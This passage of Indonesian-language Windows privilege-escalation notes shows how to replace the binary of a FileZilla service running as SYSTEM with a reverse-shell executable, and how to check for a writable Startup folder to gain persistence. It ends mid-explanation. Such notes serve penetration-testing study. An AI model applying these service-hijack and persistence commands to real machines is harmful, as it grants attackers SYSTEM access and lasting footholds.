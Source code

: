 Pertama cari dulu tasklist yang dijalankan oleh administrator

```
tasklist /FI "username eq SYSTEM"
```

Hasilnya
```
FileZilla server.exe         296 Console                 0      3,312 K
FreeSSHDService.exe          316 Console                 0      4,724 K
OpenTFTPServerMT.exe         428 Console                 0      2,124 K
```

Lalu lihat nama service
```
net start
```
Hasilnya
```
   Fast User Switching Compatibility
   FileZilla Server FTP server
   FreeSSHDService
   Help and Support

```

Ada service dengan nama `FileZilla Server FTP server`, kita stop service tersebut

```
net stop "FileZilla Server FTP server"
```

Lalu replace `FileZilla server.exe` dengan file reverse shell
```
move "FileZilla server.exe" Filezilla.exe.backup
C:\Users\alex\Desktop\hijackme.exe "FileZilla server.exe"
net start "FileZilla Server FTP server"
```

## Startup Apps
Setiap user dapat menentukan aplikasi apa aja yang otomatis dijalankan ketika mereka login dengan cara menempatkan shortcut pada directory tertentu

Windows secara default memiliki direktori untuk aplikasi yang akan dijalankan ketika startup, yaitu di `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Jika kita memiliki hak akses WRITABLE pada direktori ini kita bisa menyimpan reverse shell pada direktor tersebut yang akan dijalankan setiap kali startup. 

#### Recon
Kita cek apakah direktori Startup memiliki hak akses writable
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
Jika ada result `RW BUILTIN\Users` atau `RW Desktop\MyUser` artinya direktori tersebut writable. Jika ingin menempatkan aplikasi di direktori ini, maka harus berupa shortcut, gak bisa langsung `aplikasi.exe` cara untuk membuat shortcut ini bisa dengan vbscript
